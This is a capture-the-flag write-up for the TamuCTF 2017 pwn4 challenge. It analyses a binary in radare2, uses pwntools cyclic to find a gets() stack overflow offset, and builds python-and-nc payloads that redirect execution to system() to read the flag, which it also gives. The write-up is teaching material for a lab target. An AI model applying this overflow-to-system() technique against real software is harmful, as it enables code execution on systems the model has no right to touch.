







# [TamuCTF 2017](https://ctf.tamu.edu/)
### pwn4 - 200 Points



Is curious that this specific challenge is more worthy than the previous one ([pwn3](../pwn3/pwn3.md)). As we will see it is way easier.

Lets take a look to the code with r2
```bash
$ r2 pwn4 -c 'aaa; afl'
```


We can see four interesting functions:

* **`sym.flag_func()`** at `0x080484cb`
* **`sym.func2()`** at `0x080484e4`
* **`sym.func1()`** at `0x080484fd`
* **`sym.main()`** at `0x08048515`

```bash
[0x080483d0]> s sym.flag_func; V; p; p
# be positioned at start of sym.flag_func; Change to Visual mode; change mode view*2
```

Here they are, take a look at them.



Obviously we should try to execute that **`sym.flag_func()`**, it seems it will try print a file (**flag2.txt**, strange name right? why 2?) using the `cat` command on the remote server. But that function is never called. You can check it on your own with:
```
[0x080484f7]> axt sym.flag_func
```

Then we need to keep looking a bit more.

1. ~~**`sym.func2()`**~~ is just printing a message (it even tells you not to waste your time with it). So we can strikethrough.
2. **`sym.func1()`** is a bit more interesting because it is using the unsecure function **`gets()`**.  
Thanks to this function we would be able to overwrite the **``$eip``** register. We dont need to cross our fingers a lot of time because we fastly see that **`sym.func1()`** is being called from **`main()`**! yay!

Lets figure out, how many bytes do we need to overwrite **``$eip``** register.
```bash
[0x080484f7]> q # Close r2 (we need to open the binary again with debug mode).
$ pwn cyclic 40 # To generate string with unique subsequences.
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa
$ r2 -X "stdin=\"`pwn cyclic 40`\"" -d pwn4 -c 'aaa; dc;'
.
.
[0x61616165]> q
$ pwn cyclic -l 0x61616165
16
```
So, we can overwrite the **``$eip``** register writing the next following 4 bytes (from byte 17 to 20)!  
Now we create a file with the previously commented file (**`flag2.txt`**) to try this out.

```bash
$ echo This is the flag > flag2.txt
$ python -c 'print("A"*16 + "\xcb\x84\x04\x08")' | ./pwn4
```


Good! what will the remote server say?
```bash
$ python -c 'print("A"*16 + "\xcb\x84\x04\x08")' | nc pwn.ctf.tamu.edu 4324
```


Ouch! that file was just a decoy. There must be a file named **`flag.txt`**.
> But how could we executed it? There is only one function which print a file and its name is hardcoded.

Well, that is not a problem, because there is a call to **`system()`**.
The only thing we need to do is to pass a different argument: **`cat flag.txt`** instead of **`cat flag2.txt`**.

If you inspect all the strings of the binary you may find surprise:
:

As you may know, in order to pass the arguments to the function they need to be pushed into the stack. In case of a string not its value but its reference (a pointer **`0x0804a028`**.

Because we can overwrite the stack we can "imitate" a push into it:
1. Instead of starting in the address of **`sym.flag_func()`** (**`0x080484cb`**) we will use **`system()`** one (**`0x080484d9`**).
	```bash
    $ python -c 'print("A"*16 + "\xd9\x84\x04\x08")'
    ```
2. We need to push the pointer to the string to indicate **`system()`** which is its argument.
 	```bash
    $ python -c 'print("A"*16 + "\xd9\x84\x04\x08" + "\x28\xa0\x04\x08")'
    ```

Lets send to the server:
```bash
$ python -c 'print("A"*16 + "\xd9\x84\x04\x08" + "\x28\xa0\x04\x08")' | nc pwn.ctf.tamu.edu 4324
```

Answer: gigem{R3TURN_0R13NT3D_PR0F1T}

### Complete video
<a href="https://asciinema.org/a/drr8rhjxvoqpmu6ke8czn6hwf?autoplay=1" target="_blank"></a>


### Tools used and some references:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [pwntools](https://github.com/Gallopsled/pwntools) and [cyclic](http://docs.pwntools.com/en/stable/util/cyclic.html#pwnlib.util.cyclic.cyclic) - To generate unique substrings.
 * [asciinema](https://asciinema.org) - To record the session.